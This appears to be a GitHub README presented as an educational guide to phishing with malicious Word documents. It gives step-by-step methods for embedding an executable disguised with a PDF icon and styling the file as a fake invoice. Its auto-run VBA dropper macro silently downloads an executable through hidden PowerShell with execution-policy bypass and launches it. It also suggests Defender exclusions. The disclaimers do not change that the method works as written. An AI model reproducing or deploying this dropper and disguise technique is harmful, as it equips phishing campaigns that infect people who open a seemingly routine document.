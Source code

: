 # document-phishing
 Harmless Document-Embedded Executable – Educational Guide

> ⚠️ **Disclaimer**: This guide is for **educational and ethical purposes only**. Do not use any of the techniques described here outside of a controlled lab environment or without proper authorization.

---

# Simulating Document-Embedded Executables for Educational Purposes

This project demonstrates how attackers may simulate download or execution behavior using embedded files and macros. The purpose is to educate on social engineering tactics, red team testing, and awareness of malicious document mechanics. Everything in this guide is designed to be used in **controlled lab environments** only.

## Step 1: Create a Safe Executable (Python Example)

We'll start by creating a harmless Python app that simply displays a message box.

### harmless.py

    import tkinter as tk

    root = tk.Tk()
    root.title("Legit App")
    tk.Label(root, text="This is a safe test executable").pack()
    root.mainloop()

### Compile to `.exe` Using PyInstaller

    python -m PyInstaller --onefile harmless.py

## Step 2: Embed EXE into a Word Document (Macro-Free Method)

This step embeds your executable without using macros.

### Instructions

1. Open Microsoft Word → Go to Insert → Object  
2. Select Create from File → Browse to `dist/harmless.exe`  
3. Check "Display as icon" → Click "Change Icon"  
4. Replace the icon with a PDF or other legitimate-looking file type  

### Optional: Change EXE Icon Using Resource Hacker

To make your `.exe` appear more like a document:

1. Download and open Resource Hacker  
2. Extract a `.ico` file from a trusted app (e.g., Microsoft Edge's PDF icon)  
3. Open `harmless.exe` in Resource Hacker  
4. Go to Action → Add a New Resource  
5. Add your `.ico` file → Save the modified EXE  

## Defender and Sandbox Notes

Windows Defender will block unknown `.exe` files by default. Always test in:

- Windows Sandbox  
- A virtual machine  
- Or with Defender exclusions (only in isolated lab environments)  

## Step 3: Use Macros for Simulated Execution (With VBA)

Macros can automate document actions and simulate behaviors like:

- Message pop-ups  
- Downloading or launching safe files  

### What Are Macros?

Macros are embedded scripts written in VBA (Visual Basic for Applications) inside Office files. They're often abused in phishing attacks to execute code when a user clicks “Enable Content.”

### Harmless Macro Example (Message Box)

1. Open Microsoft Word  
2. Press Alt + F11 to open the VBA Editor  
3. In the left panel, double-click `ThisDocument`  
4. Paste the following code:

        Private Sub Document_Open()
            MsgBox "Document loaded successfully. Thank you!", vbInformation, "Notice"
        End Sub

5. Save as a Word Macro-Enabled Document (.docm)

## Making the Document Appear Legitimate

To increase realism:

- Use a convincing filename like `Invoice_1050_March2025.docm`  
- Add logos and headers  
- Include tables or line items that resemble business invoices  

## Run a Local Executable (Safe Testing)

        Private Sub Document_Open()
            Shell "C:\Users\YourUser\Desktop\SafeTestApp.exe", vbNormalFocus
        End Sub

## VBA Macro Template: Simulated Dropper (Download + Execute)

        Private Sub Document_Open()
            Dim fileURL As String
            Dim filePath As String
            Dim downloadCommand As String
            Dim executeCommand As String

            ' 1. URL of your test executable
            fileURL = "https://example.com/yourfile.exe"  ' <-- Replace with a safe URL

            ' 2. Path to save the file
            filePath = Environ("TEMP") & "\testfile.exe"

            ' 3. Command to download the file using PowerShell
            downloadCommand = "powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -Command " & _
                              """Invoke-WebRequest -Uri '" & fileURL & "' -OutFile '" & filePath & "'"""

            ' 4. Trigger download
            Shell downloadCommand, vbHide

            ' 5. Optional: Wait before execution
            Application.Wait Now + TimeValue("00:00:03")

            ' 6. Execute downloaded file
            Shell filePath, vbHide
        End Sub

Tip: Host a safe `.exe` on GitHub or a local server for testing.

## Conclusion

Learning how embedded executables and macros function is essential for ethical hackers and defenders alike. These simulations allow you to understand, detect, and prevent the tactics used in malicious document-based attacks.

**Only use these techniques in isolated test environments with explicit permission.**

## Recommended Learning Path

TryHackMe - MalDoc Room: https://tryhackme.com/room/maldoc  
Hands-on challenges to safely explore macro-based document exploitation.





 
